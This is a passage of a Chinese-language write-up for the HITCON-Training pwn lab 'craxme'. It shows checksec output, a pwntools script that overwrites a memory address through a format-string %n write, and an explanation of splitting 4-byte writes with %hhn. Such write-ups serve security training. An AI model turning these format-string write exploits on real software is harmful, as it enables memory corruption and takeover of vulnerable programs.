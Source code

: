 效果：

```
Congrt!!
cat: /home/crack/flag: No such file or directory

```

## Lab8——craxme ##

### 防护 ###

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab8$ checksec craxme
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab8/craxme'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)


```

### 分析 ###

和Lab7相似，也是fmt的利用，分别向目标地址写入218和0xFACEB00C，前者直接写即可

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./craxme")
p = process("./craxme")

p.recvuntil(":")
payload = p32(0x804a038)
payload += (218 - 4) * "a" + "%7$n"
p.sendline(payload)

p.interactive()	

```

后者需要有一定的构造。首先，由于是小端存储，要向内存中写4个byte的数据，只要用`$hhn`分别向单字节写即可。如要想写入0x12345678，相当于分别向target_addr ~ target_addr + 3的地址写入

```
0x78
0x56
0x34
0x12

```
